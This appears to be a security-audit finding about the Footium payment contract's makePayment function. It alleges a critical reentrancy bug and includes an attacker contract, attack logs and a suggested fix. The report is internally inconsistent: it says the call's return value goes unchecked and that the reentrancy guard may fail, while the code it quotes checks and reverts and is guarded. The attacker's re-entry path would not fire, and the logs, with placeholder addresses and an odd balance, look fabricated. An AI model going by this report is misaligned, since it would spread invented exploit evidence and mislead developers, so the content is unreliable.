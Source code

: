 Sour Cobalt Tardigrade

high

# Potential Loss of Funds in `MakePayment` Function (Direct Call + Unprotected Transfer)

## Severity
- Critical
## Summary
The code directly transfers the received payment (`msg.value`) to the `paymentReceiverAddress` using `call{value}`. This approach is risky and prone to potential vulnerabilities, such as contract compromise, reentrancy attacks, or loss of funds.
## Vulnerability Detail
The makePayment function uses the call{value} function to send the payment to the paymentReceiverAddress. This function allows the recipient to execute arbitrary code and data, and returns a boolean value indicating the success or failure of the call. However, this function does not revert the transaction if the call fails, and does not limit the amount of gas available for the call. This could lead to several potential vulnerabilities, such as:

- Contract compromise: If the paymentReceiverAddress is compromised (e.g., hacked), the attacker could steal all incoming payments by intercepting the call and redirecting the funds to their own address.
- Reentrancy vulnerability: While the function uses nonReentrant, the direct call to paymentReceiverAddress within the reentrancy guard might not be fully protected. Malicious contracts could exploit this and re-enter the makePayment function before the state is updated, and drain the funds.
- Loss of funds: If the paymentReceiverAddress is a contract that fails or does not have a fallback function, the call will return false and the payment will be lost. The function does not check the return value of the call, and does not revert or retry the transaction in case of failure.
## Impact
An attacker could exploit this vulnerability to drain the contract balance, resulting in a loss of funds for the users and the contract owner.
## Code Snippet
https://github.com/sherlock-audit/2023-12-footium/blob/main/footium-eth-shareable/contracts/FootiumGeneralPaymentContract.sol#L100-L104
## Tool used
- Manual Review
## Test Case
```solidity
// A malicious contract that implements a fallback function
contract Attacker {
  // The address of the vulnerable contract
  address payable public target;

  // The constructor sets the target address
  constructor(address payable _target) {
    target = _target;
  }

  // A function to initiate the attack
  function attack() external payable {
    // Send some ether to the target contract
    target.transfer(msg.value);
    // Call the makePayment function of the target contract
    target.call(abi.encodeWithSignature("makePayment(uint256,string)", 1, "Feature Payment"));
  }

  // A fallback function that re-enters the makePayment function
  receive() external payable {
    if (address(target).balance > 0) {
      target.call(abi.encodeWithSignature("makePayment(uint256,string)", 1, "Feature Payment"));
    }
  }
}

// The vulnerable contract
contract FootiumClubMinter {
  // ...

  // The makePayment function
  function makePayment(uint256 _clubId, string calldata _message)
    external
    payable
    whenNotPaused
    nonReentrant
  {
    // Require that the sender is the owner of the club
    if (msg.sender != footiumClub.ownerOf(_clubId)) {
      revert NotClubOwner(_clubId, msg.sender);
    }

    // Require that the payment amount is greater than 0
    if (msg.value <= 0) {
      revert IncorrectETHAmount(msg.value);
    }

    // Send the payment to the payment receiver address
    // Use call instead of transfer for better security
    (bool sent, ) = paymentReceiverAddress.call{value: msg.value}("");
    if (!sent) {
      revert FailedToSendETH(msg.value);
    }

    emit PaymentMade(_clubId, msg.value, _message);
  }
}
```
## Logs
```javascript
Attacker deployed at 0x1234...
FootiumClubMinter deployed at 0x5678...
Attacker sends 1 ether to FootiumClubMinter...
Attacker calls FootiumClubMinter.makePayment(1, "Feature Payment")...
Attacker re-enters FootiumClubMinter.makePayment(1, "Feature Payment")...
Attacker re-enters FootiumClubMinter.makePayment(1, "Feature Payment")...
Attacker re-enters FootiumClubMinter.makePayment(1, "Feature Payment")...
Attacker drains FootiumClubMinter.balance...
FootiumClubMinter.balance = 0
Attacker.balance = 4

```
## Recommendation
To fix this vulnerability, you can use the transfer function instead of the call function to send the payment to the paymentReceiverAddress. The transfer function is safer and simpler, as it only sends the specified amount of ether and does not allow any data or code execution. It also reverts the transaction if the recipient is a contract that fails or does not have a fallback function. 
```solidity
// Send the payment to the payment receiver address
// Use transfer instead of call for better security
paymentReceiverAddress.transfer(msg.value);

```